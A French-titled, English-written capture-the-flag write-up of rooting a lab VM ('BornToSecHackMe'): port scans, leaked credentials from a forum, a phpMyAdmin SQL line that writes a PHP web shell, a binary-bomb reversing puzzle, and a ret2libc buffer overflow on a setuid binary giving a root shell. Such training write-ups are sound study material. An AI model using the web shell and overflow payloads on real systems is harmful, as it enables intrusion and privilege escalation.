

# writeup1

Date Created: Nov 21, 2020 10:28 AM
Status: Completed

# Actions pour devenir root

1. **Get the IP adress of the machine**
To get any information from the machine, we first need to get the ip adress of it.
To do that, we have to make a few changes in `virtual box`.
We have to go into `settings → network` and add a new `adapter 2` :
    - `attached to Host-only : Adapter`
    - `Name : Vboxnet0`

    Once it's done, start the machine.

    Then, on your machine, use the command `ifconfig` and look for the `inet` of `vboxnet0`.
    Mine is `192.168.56.1`

2. **Get informations about open ports**

    With the ip adress, we have access to numerous informations.
    First, we can run an nmap to see if there is other ip adress related to this one:

    `nmap 192.168.56.1-255`.
    Here is the result :

    Nmap scan report for risenshine (192.168.56.1)
    Host is up (0.00014s latency).
    Not shown: 998 closed ports
    PORT STATE SERVICE
    80/tcp open http
    3306/tcp open mysql
    Nmap scan report for 192.168.56.104
    Host is up (0.00017s latency).
    Not shown: 994 closed ports
    PORT STATE SERVICE
    21/tcp open ftp
    22/tcp open ssh
    80/tcp open http
    143/tcp open imap
    443/tcp open https
    993/tcp open imaps

3. **Get pages pages that we have access**

    We can see that there is another ip adress that can be interesting.
    To have more info about this one, in particular the on the `https port`, we run the following command :
    `nmap 192.168.56.104 --script=http-enum`

    443/tcp open  https
    | http-enum: 
    |   /forum/: Forum
    |   /phpmyadmin/: phpMyAdmin
    |   /webmail/src/login.php: squirrelmail version 1.4.22
    |_  /webmail/images/sm_logo.png: SquirrelMail

4. **Get our first identifiants**
With the previous info information, we decided to check the following link :
`[https://192.168.56.104/forum](https://192.168.56.104/forum)`

    In particular, the topic `Probleme login ?` caught our attention.

    It look like logs of connection. We looked for `invalid user` in the page, and at some points we found what could look like a password : 

    Oct 5 08:45:29 BornToSecHackMe sshd[7547]: 
    Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2

    With this password, we can connect as `lmezard` on the same forum.
    `lmezard:!q\]Ej?*5K5cy*AJ`

    Going throught the profile of lmezard, we discover her mail, which is : `laurie@borntosec.net`
    So we tried to connect to [mailbox](https://192.168.56.104/webmail/src/login.php) found previously with a nmap with the same password we found previouly (`laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`)

    We find two mails, one containing the identifiants to the database.
    We tried to connect to [phpmyadmin](https://192.168.56.104/phpmyadmin/) with `root:Fg-'kKXBj87E:aJ$`

5. **Get a look inside the VM**

Once we are inside phpmyadmin, (and after a lot of digging to find a writable directory), we can create an SQL request that will execute for us any command :

```sql
select '<?php system($_GET["cmd"]); ?>'into outfile '/var/www/forum/templates_c/cmd.php'#
```

After some other digging, we find some other [identifiants](https://192.168.56.104/forum/templates_c/cmd.php?cmd=cat%20/home/*/*).

6. **Get access to our first step treasure hunt**

We tried to connect to the different port we found earlier with `nmap`. And we manage to connect to the ftp port : `ftp 192.168.56.104 21`
and we connect with the following `lmezard:G!@M6f4Eatau{sF"`

With a `ls` one we are connected, we can see 2 files that we want to get. We can do so by the following command inside the `ftp client`

`mget README fun`

7. **Solving the first step**

With a simple `file fun` we see that it's a tar archive that untar : `tar -xf fun`

Looking through some of the file, it looks like a part of a C code, with a comment in the end `//filexxx` , it looked like we had to merge every file, once we ordered them.
So we created a python script to do so. (python scripts/writeup1/)

You just have to use `python3 solve_lmezard.py /path/to/ft_fun` and it will output 

MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit

As it is asked, we get a password : `echo -n "Iheartpwnage" | sha256sum`

Reading the README we can now connect to Laurie in ssh (port 22 as seen earlier):

`sshlaurie@192.168.56.104 -p 22`
with the following password : 

`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

8. **Second step of the treasure hunt**

We have, again, two files, that we can copy on our side by doing so :

`scp -P 22 [laurie@192.168.56.104](mailto:laurie@192.168.56.104):/home/laurie/\{README,bomb\} .`

with the previous password.
With the README comes some clues to solve the binary file:

Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).

But it isn't enough, we used ghidra to decompile the binary file. Here is the main :

```c
int __regparm3 main(int argc,char **argv)

{
  undefined4 uVar1;
  int in_stack_00000004;
  undefined4 *in_stack_00000008;
  
  if (in_stack_00000004 == 1) {
    infile = stdin;
  }
  else {
    if (in_stack_00000004 != 2) {
      printf("Usage: %s [<input_file>]\n",*in_stack_00000008);
                    /* WARNING: Subroutine does not return */
      exit(8);
    }
    infile = (_IO_FILE *)fopen((char *)in_stack_00000008[1],"r");
    if (infile == (_IO_FILE *)0x0) {
      printf("%s: Error: Couldn\'t open %s\n",*in_stack_00000008,in_stack_00000008[1]);
                    /* WARNING: Subroutine does not return */
      exit(8);
    }
  }
  initialize_bomb();
  printf("Welcome this is my little bomb !!!! You have 6 stages with\n");
  printf("only one life good luck !! Have a nice day!\n");
  uVar1 = read_line();
  phase_1(uVar1);
  phase_defused();
  printf("Phase 1 defused. How about the next one?\n");
  uVar1 = read_line();
  phase_2(uVar1);
  phase_defused();
  printf("That\'s number 2.  Keep going!\n");
  uVar1 = read_line();
  phase_3(uVar1);
  phase_defused();
  printf("Halfway there!\n");
  uVar1 = read_line();
  phase_4(uVar1);
  phase_defused();
  printf("So you got that one.  Try this one.\n");
  uVar1 = read_line();
  phase_5(uVar1);
  phase_defused();
  printf("Good work!  On to the next...\n");
  uVar1 = read_line();
  phase_6(uVar1);
  phase_defused();
  return 0;
}
```

We see that there is 6 differents step we need to solve to get the password, that matches the number of clues given in the README.

- Phase_1:

    This one is quite easy with ghidra.

    ```c
    void phase_1(undefined4 param_1)

    {
      int iVar1;
      
      iVar1 = strings_not_equal(param_1,"Public speaking is very easy.");
      if (iVar1 != 0) {
        explode_bomb();
      }
      return;
    ```

    We can see quite easy that our first input will be `Public speaking is very easy.`

- Phase_2:

    Once we see that `read_six_numbers` is just a function that will store up to 6 digits, separated by spaces into a int array, this one is also quite easy, because the x-th number is equal to `x times the previous number`. Knowing that the second number is 2 with the README, we can calculate the list which wil give us : `1 2 6 24 120 720` 

    ```c
    void phase_2(undefined4 param_1)

    {
      int iVar1;
      int aiStack32 [7];
      
      read_six_numbers(param_1,aiStack32 + 1);
      if (aiStack32[1] != 1) {
        explode_bomb();
      }
      iVar1 = 1;
      do {
        if (aiStack32[iVar1 + 1] != (iVar1 + 1) * aiStack32[iVar1]) {
          explode_bomb();
        }
        iVar1 = iVar1 + 1;
      } while (iVar1 < 6);
      return;
    }
    ```

- Phase_3:

    This one is the first bullshit level. Indeed, we can see that we must provide 3 arguments, separated by spaces, and with the help of the README file, we see that the second arguments, a character, must be a `b`. So that give us 3 possibilities : `2 b 755 | 1 b 214 | 7 b 524`. Which is really convenient for a password.......

    ```c
    void phase_3(char *param_1)

    {
      int iVar1;
      char cVar2;
      uint local_10;
      char local_9;
      int local_8;
      
      iVar1 = sscanf(param_1,"%d %c %d",&local_10,&local_9,&local_8);
      if (iVar1 < 3) {
        explode_bomb();
      }
      switch(local_10) {
      case 0:
        cVar2 = 'q';
        if (local_8 != 0x309) {
          explode_bomb();
        }
        break;
      case 1:
        cVar2 = 'b';
        if (local_8 != 0xd6) {
          explode_bomb();
        }
        break;
      case 2:
        cVar2 = 'b';
        if (local_8 != 0x2f3) {
          explode_bomb();
        }
        break;
      case 3:
        cVar2 = 'k';
        if (local_8 != 0xfb) {
          explode_bomb();
        }
        break;
      case 4:
        cVar2 = 'o';
        if (local_8 != 0xa0) {
          explode_bomb();
        }
        break;
      case 5:
        cVar2 = 't';
        if (local_8 != 0x1ca) {
          explode_bomb();
        }
        break;
      case 6:
        cVar2 = 'v';
        if (local_8 != 0x30c) {
          explode_bomb();
        }
        break;
      case 7:
        cVar2 = 'b';
        if (local_8 != 0x20c) {
          explode_bomb();
        }
        break;
      default:
        cVar2 = 'x';
        explode_bomb();
      }
      if (cVar2 != local_9) {
        explode_bomb();
      }
      return;
    }
    ```

- Phase_4:

    Looking into `func4`, it is a simple Fibonacci function. So we must find the number `x` so that `fib(x)=0x37 (or 55 in decimal)`. We wrote a simple script name `solve_fib.py` that give us `9` as output.

    ```c
    void phase_4(char *param_1)

    {
      int iVar1;
      int local_8;
      
      iVar1 = sscanf(param_1,"%d",&local_8);
      if ((iVar1 != 1) || (local_8 < 1)) {
        explode_bomb();
      }
      iVar1 = func4(local_8);
      if (iVar1 != 0x37) {
        explode_bomb();
      }
      return;
    }
    ```

- Phase_5:

    Here comes another bullshit level. We must provide a 6-length string that will, through an algorithm, will became `giants`. For each character, we take the ascii value, take the modulo by 16, and we take the character at this index in `array.123` (We added the first line). We also did a script to solve this, and we got this answer :

    g <- {'o'}
    i <- {'p'}
    a <- {'e', 'u'}
    n <- {'k'}
    t <- {'m'}
    s <- {'a', 'q'}

    Which means, that for this level, we now have 4 answers (YEAHHH) : 
    `opekma | opekmq | opukma | opukmq`

    ```c
     // array.123 = ["i", "s", "r", "v", "e", "a", "w", "h", "o", "b", "p", "n", "u", "t", "f", "g"]

    void phase_5(int param_1)

    {
      int iVar1;
      undefined local_c [6];
      undefined local_6;
      
      iVar1 = string_length(param_1);
      if (iVar1 != 6) {
        explode_bomb();
      }
      iVar1 = 0;
      do {
        local_c[iVar1] = (&array.123)[(int)(char)(*(byte *)(iVar1 + param_1) & 0xf)];
        iVar1 = iVar1 + 1;
      } while (iVar1 < 6);
      local_6 = 0;
      iVar1 = strings_not_equal(local_c,"giants");
      if (iVar1 != 0) {
        explode_bomb();
      }
      return;
    }
    ```

- Phase_6:

    This one we couldn't manage to solve everything just by looking at the code.
    We understood that each numbers must be lesser or equal to 6, and greater than 0, otherwise, `- 1U` would have made an overflow.

    With the help of the README which gave us the first number, and with our `brute_force.py` script, we got the final answer : `4 2 6 3 1 5` 

    ```c
    void phase_6(undefined4 param_1)

    {
      int *piVar1;
      int iVar2;
      int *piVar3;
      int iVar4;
      int *local_34 [6];
      int local_1c [6];
      
      read_six_numbers(param_1,local_1c);
      iVar4 = 0;
      do {
        if (5 < local_1c[iVar4] - 1U) {
          explode_bomb();
        }
        iVar2 = iVar4 + 1;
        if (iVar2 < 6) {
          do {
            if (local_1c[iVar4] == local_1c[iVar2]) {
              explode_bomb();
            }
            iVar2 = iVar2 + 1;
          } while (iVar2 < 6);
        }
        iVar4 = iVar4 + 1;
      } while (iVar4 < 6);
      iVar4 = 0;
      do {
        iVar2 = 1;
        piVar3 = (int *)node1;
        if (1 < local_1c[iVar4]) {
          piVar3 = (int *)node1;
          do {
            piVar3 = (int *)piVar3[2];
            iVar2 = iVar2 + 1;
          } while (iVar2 < local_1c[iVar4]);
        }
        local_34[iVar4] = piVar3;
        iVar4 = iVar4 + 1;
      } while (iVar4 < 6);
      iVar4 = 1;
      piVar3 = local_34[0];
      do {
        piVar1 = local_34[iVar4];
        *(int **)(piVar3 + 2) = piVar1;
        iVar4 = iVar4 + 1;
        piVar3 = piVar1;
      } while (iVar4 < 6);
      piVar1[2] = 0;
      iVar4 = 0;
      do {
        if (*local_34[0] < *(int *)local_34[0][2]) {
          explode_bomb();
        }
        local_34[0] = (int *)local_34[0][2];
        iVar4 = iVar4 + 1;
      } while (iVar4 < 5);
      return;
    }
    ```

So, now that we have THE password, oh wait, we have 12 possible password. (knowing that after the 6th numbers at phase 2 and 6, we could put whatever we want and it would be working, the number of possibilities is infinite in fact, but anyway...)
So, we tried every single password to connect to `ssh thor@192.168.56.104 -p 22`. But it didn't work, what a surprise. So we fought, that we might have to hash the password like previously, so we tried to run `sha256` on every password but it didn't work. So we tried some other hash : `MD5, SHA1, SHA224, SHA384, SHA512` . But nothing worked. so we went to StackOverflow, and apparently, because of some magical formula, we have to swap the character before the last one with the one before this one, and finaly, with got the password :

`Publicspeakingisveryeasy.126241207201b2149opekmq426135`

9. **Solving the thor 'digest'**

Again, two files, `turtle, README` that we copied with 

`scp -P 22 [thor@192.168.56.104](mailto:thor@192.168.56.104):/home/thor/{README,turtle} .` with the previous password.

README :

Finish this challenge and use the result as password for 'zaz' user.

And in the end of turtle, we have 

Can you digest the message? :)

Before that, a lot of lines that goes like "move forward x, go backward y, turn left z, turn right w"

Because of the word `digest` we thought it would be related to a hash. But in the back of our mind, there was an idea of a drawing. We focused on the hash thing, because we were to lazy to write a script that would draw something. But at some point, we found this [site](https://turtleacademy.com/playground), so we decided to give it a try. But we had to change `turtle` to give it to the site :
`sed 's/Tourne gauche de/left/; s/Tourne droite de/right/; s/degrees//; s/Avance/fd/; s/Recule/bk/; s/spaces//' turtle > moves`

We removed the last line, copy paste into the site, and we got this



After some thought, we recognized the word `SLASH`. Again, we tried and failed to connect with this password, we decided to hash it, and `MD5` was the answer : `echo -n "SLASH" | md5sum`
`ssh zaz@192.168.56.104 -p 22 with 646da671ca01bb5d84dbb5fb2238dc8e`

10. **The final step**

This directory was different, indeed the result of `ls -l` reminded us of some exercise in Snow-crash. The binary file `exploit_me` had was owned by `root` and had the famous `sticky bit`

zaz@BornToSecHackMe:~$ ls -l
total 5
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
drwxr-x--- 3 zaz  zaz  107 Oct  8  2015 mail

So we know that we have to exploit, as it is said, the file `exploit me` , we just need to figure how. We start by importing it :
`scp -P 22 zaz@192.168.56.104:/home/zaz/exploit_me .`
With ghidra, we see that the program is quite simple :

```c
uint main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return (uint)(param_1 < 2);
}
```

The only thing we could exploit here is the variable `local_90`. Indeed, there is a strcpy of the first argument given to our program inside `strcpy`. Inside the man strcpy, we can see this :

The strcpy() function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer pointed to by dest.  The strings may not overlap, and the destination string dest
       must be large enough to receive the copy.  Beware of buffer overruns!  (See BUGS.)

And that's what we will do. We will put a string larger than 140 character to create a buffer overflow.
There is two ways to exploit a buffer overflow. We can either change the stack directly to call a function with our arguments, or we can put our own script, already compiled, in the overflow and point into the buffer so that our script will be executed.
Here, we will be doing the first option, because `nasm` isn't in the VM.
So how do we do this ?
First we need to find the address of two function we want to call, `system()` and `/bin/sh` .

To do so, we will be using `gdb` :
`gdb ./exploit_me`

With `disass main` 

(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.

We can set a breakpoint anywhere in the main function, but before the return statement. for exemple, we will set a breakpoint at the beginning :
`b *0x080483f4` . And now you run the program.

Now, we try to `disass system` and we get a result.

(gdb) disass system
Dump of assembler code for function system:
   0xb7e6b060 <+0>:	sub    $0x1c,%esp
   0xb7e6b063 <+3>:	mov    %esi,0x14(%esp)
   0xb7e6b067 <+7>:	mov    0x20(%esp),%esi
   0xb7e6b06b <+11>:	mov    %ebx,0x10(%esp)
   0xb7e6b06f <+15>:	call   0xb7f56c73
   0xb7e6b074 <+20>:	add    $0x165f80,%ebx
   0xb7e6b07a <+26>:	mov    %edi,0x18(%esp)
   0xb7e6b07e <+30>:	test   %esi,%esi
   0xb7e6b080 <+32>:	je     0xb7e6b0a8 <system+72>
   0xb7e6b082 <+34>:	mov    %gs:0xc,%eax
   0xb7e6b088 <+40>:	test   %eax,%eax
   0xb7e6b08a <+42>:	jne    0xb7e6b0cc <system+108>
   0xb7e6b08c <+44>:	mov    %esi,%eax
   0xb7e6b08e <+46>:	mov    0x10(%esp),%ebx
   0xb7e6b092 <+50>:	mov    0x14(%esp),%esi
   0xb7e6b096 <+54>:	mov    0x18(%esp),%edi
   0xb7e6b09a <+58>:	add    $0x1c,%esp
   0xb7e6b09d <+61>:	jmp    0xb7e6aaa0
   0xb7e6b0a2 <+66>:	lea    0x0(%esi),%esi
   0xb7e6b0a8 <+72>:	lea    -0x44394(%ebx),%eax
   0xb7e6b0ae <+78>:	call   0xb7e6aaa0
   0xb7e6b0b3 <+83>:	xor    %edx,%edx
   0xb7e6b0b5 <+85>:	test   %eax,%eax
   0xb7e6b0b7 <+87>:	sete   %dl
   0xb7e6b0ba <+90>:	mov    %edx,%eax
   0xb7e6b0bc <+92>:	mov    0x10(%esp),%ebx
   0xb7e6b0c0 <+96>:	mov    0x14(%esp),%esi
   0xb7e6b0c4 <+100>:	mov    0x18(%esp),%edi
   0xb7e6b0c8 <+104>:	add    $0x1c,%esp
   0xb7e6b0cb <+107>:	ret    
   0xb7e6b0cc <+108>:	call   0xb7f28840
   0xb7e6b0d1 <+113>:	mov    %eax,%edi
   0xb7e6b0d3 <+115>:	mov    %esi,%eax
   0xb7e6b0d5 <+117>:	call   0xb7e6aaa0
   0xb7e6b0da <+122>:	mov    %eax,%edx
   0xb7e6b0dc <+124>:	mov    %edi,%eax
   0xb7e6b0de <+126>:	mov    %edx,0xc(%esp)
   0xb7e6b0e2 <+130>:	call   0xb7f288a0
   0xb7e6b0e7 <+135>:	mov    0xc(%esp),%edx
   0xb7e6b0eb <+139>:	jmp    0xb7e6b0ba <system+90>
End of assembler dump.

So we keep in mind the address `0xb7e6b060`. It will be this one that we will want to put in our stack, with the address of `/bin/sh` as an argument.
`disass /bin/sh` won't give us a result, so we have to use something else : 
`find &system,+9999999,"/bin/sh"` and we now have our second address : `0xb7e6b060`.

(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.

So we have everything we need now. So how does it works ? If you give a string that is more than 140 bytes, it will store everything in the stack, even if it surpass the original allocated size.
Because of that, we can overwrite already existing code. And in particular, we want to write a call to the function `system()` with the argument `/bin/sh`. So we need to simulate what's going on inside the stack. 
For a function call, we will have : 

function address
function return address
function argument 1
function argument 2
.
.
.

So to replicate this we have to (in python):

- First : overflow the buffer with a `140 bytes string` ("oO" * 70)
- Second : write the call to system : `"\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"`

We have to write the addresses in reverse, because the address is stored in little-endian
So it goes like this :

`./exploit_me `python -c 'print "oO" * 70 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"'``

And here we go, we are root

zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "oO" * 70 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"'`
oOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoO`��IDGBX���
# whoami
root
